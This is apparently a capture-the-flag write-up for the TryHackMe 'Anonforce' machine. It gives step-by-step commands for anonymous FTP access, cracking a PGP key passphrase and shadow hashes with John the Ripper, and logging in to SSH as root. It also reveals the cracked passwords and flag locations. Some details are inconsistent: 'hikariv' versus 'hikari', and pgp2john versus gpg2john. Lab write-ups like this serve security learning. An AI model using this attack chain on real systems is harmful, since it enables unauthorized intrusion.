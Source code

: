# Anonforce | CTF Machine 

## Tools && Sources

1. metasploit
2. gpg
3. ftp
4. ssh 

## steps to get two flags 
```bash
[+] open metasploit by writing `msfconsole` in the terminal 
[+] search for ftp_version 
[+] ftp is open 
[+] search for ftp/anonymous
[+] very good ftp anonymous login allowd and I can read only .
[+] let's login and see what what we can do ftp 10.10.x.x 21 set the user to `anonymous` and enter for the password
[+] Ooooh ftp is allowed us to read the whole file system 
[+] go to /home/ you will find a user with name `melodias` so cd melodias and you will find `the user.txt` file | read it by writing command `more user.txt` | flag 1 
[+] back to / directory and  you will find a `notread` directory change directory to `/notread` and list files 
[+] download by writing `get file_name` the two files backup.pgp & private.asc  
[+] write bye to ftp session opened to close the session
[+] import private.asc file to gpg | you've to enter a password 
[+] then pgp2john private.asc > private.hash
[+] john --wordlist=/usr/share/wordlist/rockyou.txt private.hash | password is `xbox360`
[+] import the private.asc again | gpg --import private.asc | enter the password `xbox360` 
[+] gpg --decrypt backup.pgp > shadow 
[+] OMG it's a unshadow file | decrpt it using john | john --wordlist=/usr/share/wordlist/rockyou.txt shadow
[+] we've got the root password | password is `hikariv`
[+] using metasploit again search for ssh_version | Oooh ssh is open 
[+] ssh root@10.10.x.x | password is `hikariv`
```
## STEP-1
```bash
msfconsole
```
<img src="https://github.com/alauthor/Tryhackme-CTF/blob/main/Anonforce/imgs/2022-07-19%2015_22_19-Window.png">
<img src="https://github.com/alauthor/Tryhackme-CTF/blob/main/Anonforce/imgs/2022-07-19%2015_23_01-Window.png">

## STEP-2
```bash
login with ftp | ftp 10.10.x.x 21 
enter the command `dir` | you're on the / directory 
so change your current directory to /home/ and list users | you'll find a user called `melodias`
change direcotry to /home/melodias and list files there's a `user.txt` file exist read the file by writing `more user.txt` | flag 1 
change directory to / again and list directory and you will find a `notread` directory look suspecious change your directory to /notread 
display files in that folder | ls -lha | Oooh two important files downlod these files using `mget *` command 

```
<img src="https://github.com/alauthor/Tryhackme-CTF/blob/main/Anonforce/imgs/2022-07-19%2015_25_08-Window.png">
<img src="https://github.com/alauthor/Tryhackme-CTF/blob/main/Anonforce/imgs/2022-07-19%2015_23_41-Window.png">
<img src="https://github.com/alauthor/Tryhackme-CTF/blob/main/Anonforce/imgs/2022-07-19%2015_27_14-Window.png">

## STEP-3
```bash
import private key `private.asc` to gpg but it's asking for a password then decrypt it first using john 
gpg2john private.asc > private.hash
john --wordlist=/usr/share/wordlists/rockyou.txt private.hash | password is `xbox360`
gpg --import private.asc | enter the passowrd `xbox360`
gpg --decrypt backup.gpg > shadow 
john --wordlist=/usr/share/wordlists/rockyou.txt shadow | password of root user is `hikari`
connect by ssh | ssh root@10.10.x.x | password is `hikari`
cd /root
cat /root.txt | flag 2
```
<img src="https://github.com/alauthor/Tryhackme-CTF/blob/main/Anonforce/imgs/2022-07-19%2015_41_44-Window.png">
<img src="https://github.com/alauthor/Tryhackme-CTF/blob/main/Anonforce/imgs/2022-07-19%2015_41_25-Window.png">
<img src="https://github.com/alauthor/Tryhackme-CTF/blob/main/Anonforce/imgs/2022-07-19%2015_41_05-Window.png">


